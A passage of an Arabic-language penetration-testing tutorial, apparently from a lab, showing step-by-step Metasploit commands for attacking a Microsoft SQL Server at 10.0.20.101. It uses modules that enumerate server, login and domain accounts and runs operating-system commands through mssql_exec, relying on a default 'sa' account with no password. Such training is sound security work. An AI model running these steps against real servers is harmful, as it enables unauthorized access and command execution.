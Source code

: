 نلاحظ انه حصلنا 3 يوزرات
sa بدون باسورد وهذا نعرف انه الديفولت يوزر
dbadmin , auditor هذي اليوزرات وكذالك الباسورد ظاهر لنا 


فيه موديول ثاني وظيفته يعطينا معلومات ويجمع لنا اياها كلها طبعا كثير راح يعطيك معلومات مهمه
نفتح الفريم وورك بالامر التالي
[msfconsole]
ونستخدم هذا الموديول
[use auxiliary/admin/mssql/mssql_enum]
والان نشوف وش المتغيرات المطلوبه مننا عن طريق هذا الامر
[show options]
نحتاج نعطيه RHOST , USERNAME لو ماكان اليوزر الديفولت متاح , PASSWORD
في حالتنا موجود الديفولت يوزر ف مانحناج نظيف يوزر وباسورد 
[set RHOSTS 10.0.20.101]
[exploit] or [run]
ونشوف كيف كمية المعلومات الي ممكن تبني عليها هجمتك

الي بعده هو راح نسوي login 
على قاعدة البيانات عن طريق موديول معين نشوفه مع بعض
طبعا راح يعطيك معلومات ماراح نتعامل مع القاعدة 
مثل اليوزرات والخ
نفتح الفريم وورك بالامر التالي
[msfconsole]
ونستخدم هذا الموديول
[use auxiliary/admin/mssql/mssql_enum_sql_logins]
والان نشوف وش المتغيرات المطلوبه مننا عن طريق هذا الامر
[show options]
[set RHOSTS 10.0.20.101]
[exploit] or [run]

فيه الان موديول عشان ننفذ الكويري على القاعدة نفس فكرة الي سويناه مع xp-cmdshell with nmap script
نفتح الفريم وورك بالامر التالي
[msfconsole]
ونستخدم هذا الموديول
[use auxiliary/admin/mssql/mssql_exec]
والان نشوف وش المتغيرات المطلوبه مننا عن طريق هذا الامر
[show options]
[set RHOSTS 10.0.20.101]
[set CMD whoami]
[exploit] or [run]

طبعا مب قاعدين نعطيه يوزر وباسورد لانه عندنا الديفولت يوزر متاح وبدون باسورد ف الموديول حاطه لنا من نفسه

فيه موديول ثاني راح يطلع لك كمية معلومات مثل اليوزرات و القروبات الي موجوده
نفتح الفريم وورك بالامر التالي
[msfconsole]
ونستخدم هذا الموديول
[use auxiliary/admin/mssql/mssql_enum_domain_accounts]
والان نشوف وش المتغيرات المطلوبه مننا عن طريق هذا الامر
[show options]
[set RHOSTS 10.0.20.101]
[exploit] or [run]
